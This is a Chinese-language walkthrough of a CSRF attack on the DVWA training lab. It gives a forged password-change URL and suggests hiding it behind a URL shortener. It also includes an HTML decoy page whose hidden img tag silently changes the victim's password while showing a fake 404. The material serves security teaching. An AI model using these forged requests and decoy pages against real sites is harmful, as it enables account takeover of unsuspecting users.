 **漏洞利用**

`http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

当受害者点击了这个链接,他的密码就会被改成 password(这种攻击显得有些拙劣,链接一眼就能看出来是改密码的,而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了)

需要注意的是,CSRF 最关键的是利用受害者的 cookie 向服务器发送伪造请求,所以如果受害者之前用 A 浏览器登录的这个系统,而用 B 浏览器点击这个链接,攻击是不会触发的,因为 B 浏览器并不能利用 Chrome 浏览器的 cookie,所以会自动跳转到登录界面.

有人会说,这个链接也太明显了吧,不会有人点的,没错,所以真正攻击场景下,我们需要对链接做一些处理.

**漏洞利用2**

我们可以使用短链接来隐藏 URL(点击短链接,会自动跳转到真实网站),自寻搜索"短网址工具 "

**漏洞利用3**

可以构造攻击页面,现实攻击场景下,这种方法需要事先在公网上传一个攻击页面,诱骗受害者去访问,真正能够在受害者不知情的情况下完成 CSRF 攻击.这里为了方便演示,就在本地写一个 test.html,下面是具体代码.

```html
<img src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```
![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa13.png)
